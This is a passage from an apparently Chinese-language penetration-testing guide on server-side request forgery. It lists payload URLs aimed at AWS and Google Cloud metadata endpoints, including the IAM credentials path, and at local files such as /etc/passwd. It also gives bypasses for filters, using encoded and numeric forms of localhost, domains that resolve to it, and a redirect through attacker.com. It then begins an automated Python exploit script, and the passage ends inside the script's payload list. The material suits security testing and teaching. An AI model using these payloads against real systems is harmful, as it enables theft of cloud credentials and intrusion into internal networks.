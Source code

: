 **8.2.2 SSRF檢測方法**：

```bash
# 基本SSRF測試
http://target.com/proxy?url=http://169.254.169.254/
http://target.com/fetch?url=http://localhost:22
http://target.com/api/fetch?url=file:///etc/passwd

# AWS元數據
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Google Cloud元數據
http://metadata.google.internal/computeMetadata/v1/
http://169.254.169.254/computeMetadata/v1/

# 內部網路掃描
http://192.168.1.1/
http://10.0.0.1/
http://172.16.0.1/
```

**8.2.3 SSRF繞過技術**：

```bash
# URL編碼
http://target.com/proxy?url=http%3A//169.254.169.254/

# 雙重URL編碼
http://target.com/proxy?url=http%253A//169.254.169.254/

# IP地址變化
http://2130706433/  # localhost的十進制表示
http://0x7f000001/  # localhost的十六進制表示
http://0177.0.0.1/  # localhost的八進制表示

# 域名繞過
http://localtest.me/  # 解析到127.0.0.1
http://lvh.me/        # 解析到127.0.0.1
http://vcap.me/       # 解析到127.0.0.1

# 重定向繞過
# 創建重定向到內部IP的URL
http://attacker.com/redirect?to=http://169.254.169.254/
```

**8.2.4 SSRF漏洞利用**：

```python
#!/usr/bin/env python3
"""
SSRF自動化測試腳本
"""
import requests
import sys

def test_ssrf(target_url, param_name):
    """
    測試SSRF漏洞
    """
    # 測試目標清單
    payloads = [
        "http://169.254.169.254/latest/meta-data/",
        "http://localhost:22",
        "http://127.0.0.1:80",
        "file:///etc/passwd",
        "file:///proc/version",
```